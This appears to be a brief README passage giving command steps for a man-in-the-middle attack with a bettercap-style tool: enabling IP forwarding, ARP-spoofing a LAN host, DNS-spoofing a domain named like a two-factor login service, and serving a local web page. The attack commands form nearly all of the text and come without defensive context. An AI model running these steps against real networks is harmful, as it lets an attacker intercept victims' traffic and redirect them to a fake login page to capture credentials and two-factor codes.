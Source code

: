 Perform ARP spoofing attack:

	echo 1 > /proc/sys/net/ipv4/ip_forward

	set arp.spoof.targets 192.168.5.99

Perform DNS spoofing attack:

	set dns.spoof.domains 2fa.tavanoapps.com
	set dns.spoof.all true
	dns.spoof on

Active web server:

	set http.server.path /var/www/html
	http.server on
